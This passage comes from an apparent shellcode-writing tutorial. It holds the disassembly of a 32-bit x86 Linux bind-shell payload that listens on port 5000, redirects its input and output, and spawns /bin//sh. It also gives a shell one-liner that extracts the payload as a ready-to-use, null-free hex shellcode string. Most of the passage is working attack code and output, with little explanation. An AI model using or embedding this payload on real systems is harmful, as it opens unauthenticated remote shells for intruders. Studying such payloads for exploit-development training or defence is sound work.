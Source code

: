 ```
   4:   31 c9                   xor    %ecx,%ecx
   6:   31 d2                   xor    %edx,%edx
   8:   31 ff                   xor    %edi,%edi
   a:   b3 02                   mov    $0x2,%bl
   c:   fe c1                   inc    %cl
   e:   66 b8 67 01             mov    $0x167,%ax
  12:   cd 80                   int    $0x80
  14:   97                      xchg   %eax,%edi
  15:   52                      push   %edx
  16:   66 68 13 88             pushw  $0x8813
  1a:   66 53                   push   %bx
  1c:   89 e1                   mov    %esp,%ecx
  1e:   87 df                   xchg   %ebx,%edi
  20:   b2 10                   mov    $0x10,%dl
  22:   66 b8 69 01             mov    $0x169,%ax
  26:   cd 80                   int    $0x80
  28:   87 ca                   xchg   %ecx,%edx
  2a:   66 b8 6b 01             mov    $0x16b,%ax
  2e:   cd 80                   int    $0x80
  30:   31 c9                   xor    %ecx,%ecx
  32:   31 f6                   xor    %esi,%esi
  34:   66 b8 6c 01             mov    $0x16c,%ax
  38:   cd 80                   int    $0x80
  3a:   93                      xchg   %eax,%ebx
  3b:   b1 02                   mov    $0x2,%cl

0000003d <loop>:
  3d:   b0 3f                   mov    $0x3f,%al
  3f:   cd 80                   int    $0x80
  41:   49                      dec    %ecx
  42:   79 f9                   jns    3d <loop>
  44:   31 c0                   xor    %eax,%eax
  46:   50                      push   %eax
  47:   68 6e 2f 73 68          push   $0x68732f6e
  4c:   68 2f 2f 62 69          push   $0x69622f2f
  51:   89 e3                   mov    %esp,%ebx
  53:   50                      push   %eax
  54:   89 e2                   mov    %esp,%edx
  56:   53                      push   %ebx
  57:   89 e1                   mov    %esp,%ecx
  59:   b0 0b                   mov    $0xb,%al
  5b:   cd 80                   int    $0x80

```
Great we appear to have avoided the dreaded NULL bytes!!. Lets get this into
shell code

```
  $ for i in $(objdump -d bind.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xff\xb3\x02\xfe\xc1\x66\xb8\x67\x01\xcd\x80\x97\x52\x66\x68\x13
\x88\x66\x53\x89\xe1\x87\xdf\xb2\x10\x66\xb8\x69\x01\xcd\x80\x87\xca\x66\xb8\x6b\x01\xcd\x80\x31\xc9
\x31\xf6\x66\xb8\x6c\x01\xcd\x80\x93\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x6e\x2f\x73
\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
Lets put this into our shellcode test harness 

